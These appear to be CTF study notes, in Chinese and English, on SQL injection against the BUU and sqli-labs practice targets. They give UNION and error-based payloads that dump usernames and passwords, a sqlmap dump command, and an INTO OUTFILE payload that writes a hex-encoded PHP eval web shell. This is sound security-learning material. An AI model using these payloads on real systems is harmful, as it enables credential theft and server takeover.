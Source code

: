 # CTF SQL Study

## Basic

*Challenge:* BUU SQL COURSE 1

Basic progress:

1. 寻找注入点（使用and or测试逻辑）

   * 注意数字型SQL和字符串型SQL，后者需要闭合引号

2. 查找泄漏顺序&位置

   1. 列数 使用 `order by`关键字
      ```sql
      1 order by 1,2,3
      ```

      * 若列数超出，则显示空行

   2. 列回显顺序
      ```sql
      ?id=-1 union select 1,2
      ```

3. 爆破数据库

   1. 数据库名`database()`

   2. 使用`information_schema`获得数据表信息
      ```sql
      ?id=-1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='news')
      ```

   3. 获得列名
      ```sql
      ?id=-1 union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='news' and table_name='admin')
      ```

   4. 爆破表
      ```sql
      ?id=-1 union select (select group_concat(username) from admin),(select group_concat(password) from admin)
      ```




## Little Tricks

### Basic

* 存在错误输出时，通过增加一些dumb占位以辅助查看完整语句

  * `?id=1'`:  use near ''1'' LIMIT 0,1' at line 1
  * `?id=1'asdf`: near 'asdf' LIMIT 0,1'，**发现使用单引号闭合**

  

## SQLi-labs

### Series 1 - Basic SQL injections

1. Simple sqli, same as [Basic](#Basic)
   ```sql
   id=0%27 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'), (select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')%23
   
   # dump table
   id=0%27 union select (select group_concat(id) from users),(select group_concat(id) from users),(select group_concat(password) from users)%23
   
   # dump uagents table (no content)
   ?id=0 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="security"),(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="uagents")
   
   
   ```

2. Numeric sqli, same as 1

3. 通过加入引号等，使SQL语句报错，报错输出`... syntax to use near 'union select 1,2,3#') LIMIT 0,1'`，**包含一个)，需要同时在sqli中闭合**

   * Source code:  `$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

   * `id=0'#`，输出`... right syntax to use near ''1'') LIMIT 0,1' at line 1`
   * `id=1")`，正常返回，**语句为单引号，双引号被解析为正常字符**，查询时被忽略
   * `id=5a') %23` 正常返回，`#` hackbar无法作为注释符号使用，加url encode `%23`通过
   * `?id=0') union select 1,2,3 %23`，获得字段回显
   * 后续正常注入

4. 单引号不报错，尝试其他符号用于闭合SQL语句

   * `?id=1"asdf %23`:   right syntax to use near` 'asdf #") LIMIT 0,1'` at line 1，**双引号+括号闭合**
   * `?id=1") order by 1,2,3 %23` Normal

5. 单引号闭合，查询成功后返回`You are in...........`

   * `?id=1' order by 1,2,3,4 %23`

   * 两种解题方式

     1. 布尔盲注爆破，脚本`sqli-blind-bruteforce-template.py` 多线程爆破数据库

     2. 错误注入（**Recommended**，如题"Double Query"）。常用报错注入方式：

        1. `floor`函数注入 [reference](https://blog.csdn.net/miraclehw/article/details/129250360)

           ```sql
           # Prototype (dump user)
           id = 1 AND (SELECT 1 from 
           (SELECT count(*),concat(0x23,(SELECT schema_name from information_schema.schemata LIMIT 0,1),0x23,floor(rand(0)*2)) as x 
           from information_schema.`COLUMNS` GROUP BY x) 
           as y)
           # Payload
           'id=-1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select concat(id,'-',username,'-',password) from security.users limit 0,1)) as x from information_schema.tables group by x%23
           ```

           * `floor(rand(0)*2)` 固定生成 `01101100111`序列，在执行group by 插入虚表时产生duplicated entry 错误
           * `count(*)`确保返回单行结果，保证内部子查询会对每一行执行

        2. `xpath` 报错注入 (`extractvalue` and `updatexml`): require mysql >= 5.1
           在xml路径（xpath）错误时，返回报错

           * ` updatexml(XML_document, XPath_string, new_value)`使用不同xml标记匹配和替换xml块

           * `extractbalue(XML_document, xpath_string)`从目标XML中返回匹配查询的字符串

           * payload
             ```sql
             and extractvalue(1,concat(0x7e,(select group_concat(username) from users),0x7e))
             ```

6. 与5相同，双引号闭合

7. 错误不回显，只展示信息，成功显示`You are in.... Use outfile......`

   * 双引号正常，单引号报错，**说明是单引号字符串，包含括号**，测试得到两个括号
   * 文件注入（未成功）`id=-1')) union select 1,0x3c3f706870206576616c28245f504f53545b636d645d293b3f3e,3 into outfile "E:\softs\phpstudy_pro\WWW\sqlilabs2\Less-7\mm2.php"--+`

8. 布尔盲注，可使用Lesson-5中脚本进行自动化测试

   * 也可以使用**sqlmap**: ` sqlmap -u "http://2aba3d8b-3b64-4247-8942-4de7881a9d83.node5.buuoj.cn/Less-8/?id=1" --technique B -D security -T users -C username,password --dump --threads 10 --batch    `
   * ![image-20240801215738108](./SQL Study.assets/image-20240801215738108.png)
   * <img src="./SQL Study.assets/image-20240801215931138.png" alt="image-20240801215931138" style="zoom:50%;" />

